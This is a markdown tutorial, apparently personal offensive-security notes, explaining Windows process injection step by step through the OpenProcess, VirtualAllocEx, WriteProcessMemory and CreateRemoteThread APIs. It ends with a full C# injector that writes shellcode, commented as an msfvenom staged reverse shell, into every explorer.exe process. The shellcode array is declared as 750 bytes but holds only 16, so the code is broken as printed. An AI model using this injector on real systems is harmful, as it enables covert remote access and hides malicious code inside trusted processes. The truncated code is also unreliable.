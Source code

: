 <img width="1303" height="692" alt="image" src="https://github.com/user-attachments/assets/8c9b2509-cacf-419b-8ca8-d195c7e68c4b" />



##### we can initiate Windows-based process injection by opening a channel from one process to another. Process must be running at same integrity level or lower.    

1. Use Win32 **OpenProcess** API to open a channel. 
2. We'll then modify its memory space through the **VirtualAllocEx** and **WriteProcessMemory** APIs  
3. create a new execution thread inside the remote process with **CreateRemoteThread**.  
<br>
<br>
<br>

STEP #1 [OpenProcess API](http://pinvoke.net/default.aspx/kernel32/OpenProcess.html) has three arguments. Desired access listed on pinvoke webpage  
1. dwDesiredAccess, establishes the access rights we require on that process.  
2. bInheritHandle, determines if the returned handle may be inherited by a child process   
3. dwProcessId, specifies the process identifier of the target process. 
<br>
<br>
<br>


STEP #2 [VirtualAllocEx API](http://pinvoke.net/default.aspx/kernel32/VirtualAllocEx.html)  

[VirtualAllocEx MS page with function prototype](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) 


The first argument (hProcess) is the process handle to explorer.exe that we just obtained from OpenProcess and the second, lpAddress, is the desired address of the allocation in the remote process. If the API succeeds, our new buffer will be allocated with a starting address as supplied in lpAddress.

If the address given with lpAddress is already allocated and in use, the call will fail. It is better to pass a null value and let the API select an unused address.

The last three arguments (dwSize, flAllocationType, and flProtect) mirror the VirtualAlloc API parameters and specify the size of the desired allocation, the allocation type, and the memory protections. We'll set these to 0x1000, 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (PAGE_EXECUTE_READWRITE), respectively. The VirtualAllocEx invocation is shown below.


<br>
<br>
<br>

STEP #3 [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
<br>
ProtoType:
<br>
We first pass the process handle (hProcess), followed by the newly allocated memory address (lpBaseAddress) in explorer.exe, along with the address of the byte array (lpBuffer) containing the shellcode. The remaining two arguments are the size of the shellcode to be copied (nSize) and a pointer to a location in memory (lpNumberOfBytesWritten) to output how much data was copied.   
<br>

for the word **OUT** in the script below on writeprocessmemory
<br>
We'll observe that the out keyword was prepended to the outSize variable to have it passed by reference instead of value.  
<br>

```C
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```
<br>
<br>
<br>
<br>

STEP #4 [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
<br>
<br>

CreateRemoteThread Prototype:  
<br>

```C
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```
<br>


This API accepts seven arguments, but we will ignore those that aren't required. The first argument is the process handle to explorer.exe, followed by the desired security descriptor of the new thread (lpThreadAttributes) and its allowed stack size (dwStackSize). We will set these to "0" to accept the default values.

For the fourth argument, lpStartAddress, we must specify the starting address of the thread. In our case, it must be equal to the address of the buffer we allocated and copied our shellcode into inside the explorer.exe process. The next argument, lpParameter, is a pointer to variables which will be passed to the thread function pointed to by lpStartAddress. Since our shellcode does not need any parameters, we can pass a NULL here.

The remaining two arguments include various flags (dwCreationFlags) and an output variable for a thread ID (lpThreadId), both of which we will ignore.   
<br><br><br>
<br><br><br>


**REMEMBER TO ALWAYS COMPILE IN FOR THE RIGHT ARCHITECTURE!  X64 or X86.....**

Final C# script to inject into explorer.exe found by name.  If there are multiple explorer.exe running this will inject into all of them.  Correct script to point to 0 in explorerprocess array for first instance of explorer.exe  <br><br>
```C#
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace inject
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = 0;

            Process[] explorerprocess = Process.GetProcessesByName("explorer");
            foreach (Process proc in explorerprocess)
            {
                Console.WriteLine("Found explorer at PID: " + proc.Id);
                
                hProcess = OpenProcess(0x001F0FFF, false, proc.Id);

                //IntPtr hProcess = OpenProcess(0x001F0FFF, false, 6608);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

		//buf is msfvenom csharp staged rev shell.
                byte[] buf = new byte[750] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51};

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }
}


```
